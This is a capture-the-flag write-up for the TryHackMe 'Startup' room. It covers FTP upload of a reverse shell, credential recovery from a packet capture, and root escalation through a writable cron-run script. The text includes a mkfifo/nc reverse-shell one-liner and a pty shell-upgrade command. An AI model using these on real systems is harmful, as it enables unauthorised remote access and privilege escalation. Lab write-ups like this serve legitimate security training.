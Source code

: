 ```yaml
---
title: "Startup - TryHackMe"
date: "2020-12-19"
categories: 
  - "tryhackme"
---
```


write-up for Tryhackme room [Startup](https://tryhackme.com/room/startup)

Difficulty level - Easy

Start with Nmap scan

```
nmap -A -oN initial 10.10.245.134
```

![](/Images/startup/IMG-001.png)

Result show Anonymous FTP login possible we log in to FTP, download available files and go through all directories

![](/Images/startup/Screenshot-2020-12-19-234638.png)

Now go to web page, its look empty so run gobuster on it

![](/Images/startup/Screenshot-2020-12-19-235826.png)

when we go through the "**/files**" we can notice the same documents which we found in FTP login, so if we can upload a Reverse Shell to using FTP login we can get shell

Upload your prefer reverse shell code, you can find some reverse shell [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Upload reverse shell into "**ftp**" folder then navigate into location in browser and execute the code.

![](/Images/startup/Screenshot-2020-12-20-001204.png)

Success result would be like this

![](/Images/startup/Screenshot-2020-12-20-001447.png)

we need to change into stable shell for type this command and get stable shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

when we go thought directories we come across "**.pcapng**" file which is inside incident folder, download the file to local PC and analysis the packets.

when we analyses the file we notice some password attempts

![](/Images/startup/Screenshot-2020-12-20-002418.png)

we have a username and password, so can switch user or try login with SSH, i chose SSH because it give more stable shell.

## Privilege Escalation

There is script which is owned by root when execute it will echo which written in "/etc/print.sh" this file owed by lennie we can write the file so we can edit and another shell inside it.

![](/Images/startup/Screenshot-2020-12-20-004137.png)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Local IP> 9999 >/tmp/f/
```

after adding this to file, execute or wait some time.

![](/Images/startup/Screenshot-2020-12-20-003844.png)

Finally root.
